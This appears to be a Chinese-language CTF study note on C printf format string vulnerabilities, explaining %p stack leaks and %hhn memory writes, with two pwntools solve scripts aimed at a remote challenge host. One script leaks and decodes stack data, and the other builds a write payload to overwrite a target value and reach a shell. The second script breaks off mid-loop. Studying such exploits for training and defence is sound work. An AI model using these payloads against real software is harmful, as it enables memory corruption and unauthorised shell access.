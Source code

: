 ### 利用條件
- c 裡面的printf函數被使用
### 原理
大概念：c語言裡面的printf如果單純輸出字串變數其實是可以被自訂格式的
```%p```會輸出某個變數的value
```%{number}$p```可以輸出stack上面指定number的變數value
```%{amount}c%{number}$n```可以填入某個amount的字元到stack上面某個變數，並且因為後面接n所以可以變成8byte的value，但是這樣高機率會出事情，所以一般都使用1byte的hhn填下去
### 範例1
- 題目大意：叫你輸入東西然後他會輸出醬
- 解法：阿就用 %{number}$p 的方法一直亂戳下去就好，最後發現每個資料都被倒過來了就倒回去(喔喔還有會被hex編碼過)
- solve script
```python=!
from pwn import *
import binascii
r=remote('120.114.62.213', 4001)
s=r.recvuntil('\n')
print(s);
payload='%6$p,%7$p,%8$p,%9$p,%10$p,%11$p,%12$p#'
r.sendline(payload)
s=r.recvuntil('#')[9:-1].split(',')
def enc(x):
    x=hex(int(x[2:], 16))
    x=binascii.unhexlify(x[2:])
    cnt=''
    for i in range(len(x)):
        cnt += x[len(x)-1-i]
    return cnt
ans=''
for i in s:
    ans+=enc(i)
print(ans)
```
圖：(不小心戳太多東西呵呵)
![](https://hackmd.io/_uploads/By-PijSa2.png)

### 範例2
- 題目大意：叫你輸入東西，用printf輸出，然後比對某兩個int value如果吻合到就可以拿到/bin/sh
- 解法：利用radare2確認stack上面可以塞哪東西，慢慢算以後再用'a'去填充，最後再接上你的stack上面你剛剛要填入到第幾個的位置塞入你要改變的記憶體位址(好饒口，之後修)
- 註：利用```%{amount}c%{number}$n```類型的payload打
- solve script
```python!=
from pwn import *
r=remote('120.114.62.213', 4003)
s=r.recvuntil(':')
print(s)
'''
%??c%?$hhn%??c%?$hhn%??c%?$hhn%??c%?$hhn
value
value+1
value+2
value+3
'''
ch=0
addr=0x404050
value=0xfaceb00c
payload=''
idx=12
for i in range(4):
    addch=((256-ch)+(value&0xff))%256
    payload+='%{}c%{}$hhn'.format(addch, idx)
    ch=value & 0xff
    value >>= 8
```